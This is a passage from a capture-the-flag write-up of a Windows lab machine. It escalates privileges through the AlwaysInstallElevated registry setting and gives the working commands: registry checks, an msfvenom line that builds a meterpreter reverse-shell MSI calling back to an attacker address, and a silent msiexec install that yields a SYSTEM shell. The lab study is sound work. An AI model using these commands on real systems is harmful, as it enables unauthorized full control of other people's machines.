		- [HackTricks - windows-local-privilege-escalation](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated)

<br>

## Checking the register
- Let's try to do it.
- First, let's check the value of the 2 registers


```powershell
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

- the result



- So, the value of those `2 registers are in facts 0x1`
- Now, we know we can exploit it. 

## Generate MSI files
- So, I'm gonna generate `MSI package file` with `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.14 lport=9902 -f msi > lol.msi
```

- After successfully generate the files
- Then, `upload` the file into the target machine.

### exploit/multi/handler
- Before we can execute it.
- We need to set up the `"listener"` for our meterpreter reverse shell



### Execute the MSI file
- Let's execute those files
```powershell
msiexec /quiet /qn /i lol.msi
# flags explain
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs.administrative) installation
```

- the result



- we've got the shell and become `NT AUTHORITY/SYSTEM`

### Administrator Flag



## Conclusion
I've learned a lot today. First, enumerate is the key. YES! it is important. I always heard SSRF and this machine introduces it to me and guess what. I'm so phreaking excited. Also, always ask yourself it is your web app is secure because like we know this machine web app doesn't have any filter at the upload form and it's even allowed php file to be uploaded at the photo upload form. Make sure to configure your machine properly.
 
I have a fun time doing this machine and I hope you guys do too. Bye ;)